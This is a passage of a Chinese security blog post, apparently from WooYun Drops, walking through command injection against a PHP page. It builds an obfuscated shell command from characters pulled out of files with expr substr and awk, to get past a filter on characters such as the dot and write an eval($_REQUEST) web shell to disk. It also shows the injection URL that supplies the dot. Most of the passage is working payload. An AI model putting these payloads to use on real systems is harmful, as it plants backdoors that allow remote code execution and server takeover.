 ```
?

```

最后总算凑够数了,完整的语句是:

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php  

```

在shell 下成功执行

![2014030416261134841.png](http://drops.javaweb.org/uploads/images/0162cd747409137b9e5fa07c0d8fb76e2f4b7c05.jpg)

到这里马上就能拿到shell了,用不了多久，我就会升职加薪，当上总经理，出任CEO，迎娶白富美，走上人生巅峰。想想还有点小激动呢，嘿嘿~~ 

![2014030416275658281.jpg](http://drops.javaweb.org/uploads/images/5cd97ec71cc07f09cb8476d48a680f8ea9709a16.jpg)

我擦,这怎么玩......在测试环境上执行出现的结果,万万没想到最终还是有.(点),因为读test.php文件,还是需要带后缀. 你妹啊.....

![2014030416233033879.png](http://drops.javaweb.org/uploads/images/1a698cadaa98bf75b5cf5eee706578a228d028ec.jpg)

又回到点的问题.这次直接ls >xxx 把当前目录下的文件(目录文件带了后缀)都写入xxx，然后在从xxx 中借.(点)，替换原先的语句。

```
http://localhost/test.php?id=aaaa;ls >xxx;

```

以我本地环境为例,xxx文件的第1行第2列（2.php）的字符就是.(点)

![2014030416293419945.png](http://drops.javaweb.org/uploads/images/bdd5d0ac941aae310cd5f75a0ce72082f2732a64.jpg)

将原来语句中的test.php的.(点) 都替换成 

```
`expr substr $(awk NR==1 xxx)  2 1`

```

原语句：

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php

```

改为:

```
echo `expr substr $(awk NR==1 test`expr substr $(awk NR==1 xxx)  2 1`php) 1 1`?php eval`expr substr $(awk NR==11 test`expr substr $(awk NR==1 xxx)  2 1`php) 33 1``expr substr $(awk NR==20 test`expr substr $(awk NR==1 xxx)  2 1`php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test`expr substr $(awk NR==1 xxx)  2 1`php) 35 1``expr substr $(awk NR==20 test`expr substr $(awk NR==1 xxx)  2 1`php) 7 1``expr substr $(awk NR==17 test`expr substr $(awk NR==1 xxx)  2 1`php) 2 1``expr substr $(awk NR==1 test`expr substr $(awk NR==1 xxx)  2 1`php) 6 1` >2`expr substr $(awk NR==30 test`expr substr $(awk NR==1 xxx)  2 1`php) 13 1`php

```
